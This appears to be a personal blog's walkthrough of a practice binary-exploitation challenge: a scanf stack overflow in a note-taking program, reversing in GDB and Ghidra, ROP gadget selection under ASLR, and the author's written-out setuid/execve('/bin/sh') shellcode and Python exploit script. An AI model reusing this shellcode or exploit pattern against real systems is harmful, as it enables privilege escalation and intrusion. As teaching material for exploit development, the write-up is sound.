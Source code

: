 ```yaml
---
layout: post
title: "Hacking a simple binary"
date: 2023-11-19 16:27:00 +0200
categories: Binary-Exploitation Exploit-Development
---
```


# Initial setup and enumeration
After downloading the __challenge_1__ executable and modifying the file permissions, I ran the program to see what it does.

![Checking for binary defenses with file.](https://0x0l0rd.github.io/blog/assets/img/BE1/Initial setup/1.png)

![Running the program.](https://0x0l0rd.github.io/blog/assets/img/BE1/enumeration/1.png)

The program offers three options:
*	Creating a note.
*	Reading all the created notes.
*	Exiting the program.

![Testing functionality in target program.](https://0x0l0rd.github.io/blog/assets/img/BE1/enumeration/3.png)
 
I proceeded to check for low-hanging fruit; Format string bugs, Buffer Overflows (BoF), etc.

![](https://0x0l0rd.github.io/blog/assets/img/BE1/enumeration/5.png)

![](https://0x0l0rd.github.io/blog/assets/img/BE1/enumeration/4.png)

The program seemed to be susceptible to BoF. Next, I proceeded to examine what binary exploit mitigations were in place.


![](https://0x0l0rd.github.io/blog/assets/img/BE1/enumeration/6.png)

I noted that there was no stack canary, the stack was executable, and no Position Independent Code. This may aid my exploitation attempts at a later stage. Moreover, I decided to leave ASLR enabled on my machine to challenge myself further.

# Reversing
To conduct further investigation, I opened the executable in GDB and Ghidra. On inspection of GDB output, I found that the executable was not compiled with symbols. 

![](https://0x0l0rd.github.io/blog/assets/img/BE1/reversing/1.png)

So, I started from the top, __libc_start_main__. Specifically, as the first parameter of the function is usually the main function, I concluded that it was the best place to start, considering that the binary didn’t seem very large.

![](https://0x0l0rd.github.io/blog/assets/img/BE1/reversing/2.png)

From there, it was relatively easy to determine the function which would be called whenever a note was created. Upon inspection of the function in question, the cause of the vulnerability was made clear.

![](https://0x0l0rd.github.io/blog/assets/img/BE1/reversing/3.png)

That is, the use of __scanf()__, an unsafe function. As it does no bounds-checking, the bounds of the 206-byte buffer could be written past. Using the payload from before, and a breakpoint on the address of the ret instruction, I was able to confirm that the top of the stack before returning from the function was 0x41 (A). 

![](https://0x0l0rd.github.io/blog/assets/img/BE1/reversing/5.png)

Using the following payload, I was able to confirm that I could control the saved return address: ```python3 -c “print('1\n')+('A'*216)+('C'*8))” > ./test```

![](https://0x0l0rd.github.io/blog/assets/img/BE1/reversing/7.png)

(I previously ran the executable with ```r < test```, so restarting the program in GDB invoked the same piped input in the above screenshot.)
I used 216 A’s in the payload, as it would take 208 bytes to fill every byte of the buffer, and a further 8 to overwrite the saved base pointer.

# Exploitation
As the program was being run on a system with ASLR enabled, the simple stack-based buffer overflow would not work. This meant I would need to use a ROP chain. My first few attempts involved using Ropper to find gadgets in the Libc shared object library, but that did not work as a result of ASLR. The only addresses that did not seem to change with each new instance of the running program were the addresses of the gadgets found at the offsets of the code contained within the __Challenge_1__ binary.

[](https://0x0l0rd.github.io/blog/assets/img/BE1/exploitation/2.png)

I thought to use the gadget as shown in the above screenshot for a ret2libc-style exploit, but that did not work, as the address of __system()__ would change with each instance of the application being launched.

[](https://0x0l0rd.github.io/blog/assets/img/BE1/exploitation/3.png)

Then I had the thought to use a gadget that would essentially pop RSP’s value into RIP, such that if I were to place shellcode on the stack, I could execute it by redirecting RIP to it.
There were some gadgets I considered chaining together to achieve this, such as the following;

[](https://0x0l0rd.github.io/blog/assets/img/BE1/exploitation/8.png)

[](https://0x0l0rd.github.io/blog/assets/img/BE1/exploitation/7.png)

[](https://0x0l0rd.github.io/blog/assets/img/BE1/exploitation/6.png)

However, after stepping away for a bit, I found a simple solution which only required a single gadget. I discovered this attack vector by investigating the rest of the code contained within the function.

[](https://0x0l0rd.github.io/blog/assets/img/BE1/exploitation/91.png)

The contents of the buffer are copied to the address stored at the address stored in RDI (I.e, the first parameter passed to the function). This is likely some variable in the caller function, but I noted that I could use it, nonetheless. In addition, RAX is used as the base register for the copy operation. That would work well with the following gadget I found when using Ropper on the __Challenge_1__ binary:

[](https://0x0l0rd.github.io/blog/assets/img/BE1/exploitation/94.png)

I encountered some sort of error when using 0x40110c as the returned address with which I would overwrite the saved return address on the stack. For some reason, the address overwrite would not change the value of the saved address overwrite. However, by changing the last byte of the address, the overwrite would proceed as expected. I managed to solve the problem by altering the gadget address, such that the address used would be of the prior instruction, such that the last byte is anything other than 0x0c.

[](https://0x0l0rd.github.io/blog/assets/img/BE1/exploitation/95.png)

As the prior instruction was benign in relation to the intention, it would work (I.e because EDI’s value is not crucial to the exploit succeeding, its value being altered would not present any unexpected behavior).
With the attack vector mapped out, I decided to write some shellcode, as it was the only piece of the exploit that was absent.
The result was the following:

```
section .data 
section .bss
section .text

global _start

_start:
    jmp shellString
pwn:
    ; setuid(0) - GG if setuid :)
    xor rax, rax
    xor rdi, rdi
    mov al, 0x69
    syscall

    ; execve("/bin/sh", 0x0, 0x0)
    xor rax, rax
    xor rdx, rdx
    xor rsi, rsi
    xor rcx, rcx
    mov al, 0x3B
    pop rdi
    mov rdi, [rdi]
    push rdi
    push rsp
    pop rdi
    mov BYTE [rdi + 7], cl
    syscall

shellString:
    call pwn
    sh dq "/bin/sh"
```

Finally, the resultant exploit code was as follows:

```
from struct import pack
from os import system

shellcode = b"\xeb\x24\x48\x31\xc0\x48\x31\xff\xb0\x69\x0f\x05\x48\x31\xc0\x48\x31"
shellcode += b"\xd2\x48\x31\xf6\x48\x31\xc9\xb0\x3b\x5f\x48\x8b\x3f\x57\x54\x5f\x88"
shellcode += b"\x4f\x07\x0f\x05\xe8\xd7\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68"

return_addr = pack( "<L", 0x401107 )

target = "./challenge_1"
payload = ( b'1\n' ) + shellcode + ( b'A' * 166 ) + return_addr


def main():
    with open( "payload", "wb+" ) as f:
        f.write( payload )

    system( f"(cat payload; printf '\n' ;cat) | {target}" )

if __name__ == "__main__":
    main()
```

When run, I observed that the exploit worked as intended, and I successfully managed to get a shell!

[](https://0x0l0rd.github.io/blog/assets/img/BE1/exploitation/97.png)





